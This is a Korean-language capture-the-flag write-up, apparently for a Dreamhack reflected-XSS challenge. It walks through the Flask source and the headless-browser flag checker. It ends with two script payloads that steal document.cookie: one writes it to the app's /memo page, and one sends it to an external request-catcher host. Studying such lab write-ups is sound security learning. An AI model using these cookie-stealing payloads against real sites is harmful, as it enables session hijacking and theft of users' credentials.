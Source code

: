 ## 해설
### 문제 목표 및 기능
---
`/` 인덱스 페이지
`/vuln` 이용자가 입력한 값을 출력
`/memo` 이용자가 메모를 남길 수 있으며, 작성한 메모를 출력
`/flag` 전달된 URL에 임의 사용자가 접속하게끔 한다. 해당 이용자의 쿠키에는 FLAG가 존재한다. 
### 웹 서비스 분석
---
#### `/vuln` 엔드포인트
이용자가 전달한 `param`의 값을 출력한다. 
```py
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시
```
#### `/memo` 엔드포인트
이용자가 전달한 `memo` 파라미터 값을 `render_templete`함수를 통해 기록하고 출력한다.
```py
@app.route('/memo') # memo 페이지 라우팅
def memo(): # memo 함수 선언
    global memo_text # 메모를 전역변수로 참조
    text = request.args.get('memo', '') # 사용가 전송한 memo 입력값을 가져옴
    memo_text += text + '\n' # 사용가 전송한 memo 입력값을 memo_text에 추가
    return render_template('memo.html', memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력
```
#### `/flag` 엔드포인트
* GET
이용자에게 URL을 입력받는 페이지를 제공한다. 
* POST
`params`파라미터 값과 쿠키에 FLAG를 포함해 `check_xss`함수를 호출한다. `check_xss`는 `read_url`함수를 호출해 **vuln**엔드포인트에 접속한다. 
```py
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
    
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
    
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'
        return '<script>alert("good");history.go(-1);</script>'
```
### 취약점 분석
---
**memo**는 `render_templete`함수를 사용해 `memo.html`을 출력한다. `render_templete`함수는 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않는다. 하지만 **vuln**은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS가 발생한다.
### 익스플로잇
---
* location.href
전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성값
* document.cookie
해당 페이지에서 사용하는 쿠키를 읽고, 쓰는 속성값

`memo` 페이지에서 사용
```js
<script>location.href = "/memo?memo=" + document.cookie;</script>
```
웹 서버에서 사용
```js
<script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>
```